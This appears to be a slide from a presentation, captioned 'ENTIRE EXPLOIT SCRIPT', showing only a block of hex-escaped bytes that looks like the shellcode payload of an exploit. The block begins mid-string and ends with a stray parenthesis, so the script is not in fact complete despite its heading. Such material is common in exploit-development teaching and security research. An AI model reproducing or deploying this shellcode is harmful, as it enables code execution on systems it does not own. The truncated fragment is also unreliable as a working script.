

# ENTIRE EXPLOIT SCRIPT
  "\xbd\xca\x85\xe3\xd7\xc4\xfa\x14\xd8\x0e\x8d\x12\x16\x6a"
             "\xde\xf4\x5b\x8c\xf1\x58\xd5\x6a\x9b\x70\xb3\x25\x33\xb3"
             "\xe0\xfd\xa4\xcc\xc2\x51\x7d\x5b\x5a\xbc\xb9\x64\x5b\xea"
             "\xea\xc9\xf3\x7d\x78\x02\xc0\x9c\x7f\x0f\x60\xd6\xb8\xd8"
             "\xfa\x86\x0b\x78\xfa\x82\xfb\x19\x69\x49\xfb\x54\x92\xc6"
             "\xac\x31\x64\x1f\x38\xac\xdf\x89\x5e\x2d\xb9\xf2\xda\xea"
             "\x7a\xfc\xe3\x7f\xc6\xda\xf3\xb9\xc7\x66\xa7\x15\x9e\x30"
             "\x11\xd0\x48\xf3\xcb\x8a\x27\x5d\x9b\x4b\x04\x5e\xdd\x53"
             "\x41\x28\x01\xe5\x3c\x6d\x3e\xca\xa8\x79\x47\x36\x49\x85"
             "\x92\xf2\x79\xcc\xbe\x53\x12\x89\x2b\xe6\x7f\x2a\x86\x25"
             "\x86\xa9\x22\xd6\x7d\xb1\x47\xd3\x3a\x75\xb4\xa9\x53\x10"
             "\xba\x1e\x53\x31")